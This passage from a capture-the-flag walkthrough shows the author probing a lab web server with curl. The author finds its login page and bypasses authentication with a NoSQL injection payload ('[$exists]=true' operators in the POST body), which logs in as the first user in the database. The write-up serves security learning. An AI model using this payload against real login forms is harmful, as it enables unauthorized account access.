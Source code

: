 ```
            <button type="submit" class="flex w-full justify-center rounded-md bg-green-500 px-3 py-1.5 text-sm font-semibold leading-6 uppercase text-thm-800 shadow-sm hover:bg-green-400 focus-visible:outline focus-visible:outline-2 focus-visible:outline-offset-2 focus-visible:outline-green-600">Sign in</button>
          </div>
        </form>

        <!-- Error message -->
              </div>
...
...
```

From this output we can tell that the site is expecting us to pass a username and password and just by trying the most common page name and entering `curl http://10.10.106.239:8080/login.php` we are served with the exact smae page, so we now know where we were being redirected to and which page is expecting us to pass a username and password to it.

Let's try and re-write our `curl` command to pass on our username and password to `login.php`.  We also add a `-c` switch to save any cookies served by the page:

```
$ curl -s -u 'admin:Y3<R E D A C T E D>n' http://10.10.106.239:8080/login.php -X POST -d 'username=admin&password=Y3<R E D A C T E D>n' -c cookie -L
```
This time we get a response telling us that the username or password are incorrect:
```
        <!-- Error message -->
                  <p class="py-4 mt-3 text-center bg-thm-900 text-sm text-red-500 border rounded-md border-red-500">
            Invalid username or password          </p>
              </div>
```

Well... what do I try next? I can send data to the server for processing but I don't seem to have the proper username and password that I need to use.  
What followed here was a lot of trial and error and going round in circles until I decided to try some NoSQLi techniques.  I used the following as a great refernce to get started: https://book.hacktricks.xyz/pentesting-web/nosql-injection

The following `curl` command effictively matches to the first user in the database that has a non-null username and password:

```
$ curl -s -u 'admin:Y3<R E D A C T E D>n' http://10.10.106.239:8080/login.php -X POST -d 'username[$exists]=true&password[$exists]=true' -c cookie.txt -L
```

And it works!  I'm now presented with a different HTML which includes the message **Welcome `Frostbite`!**.
``` 
<!DOCTYPE html>
<html lang="en" class="h-full bg-thm-800">
...
...
    </div>
      </div>
    </nav>

    <div class="">
      <header>
        <div class="max-w-7xl mx-auto px-4 sm:px-6 lg:px-8 py-8 bg-thm-800">
          <h1 class="text-3xl font-bold leading-tight text-center text-gray-100 ">Welcome Frostbite!</h1>
                  </div>
      </header>
...
```
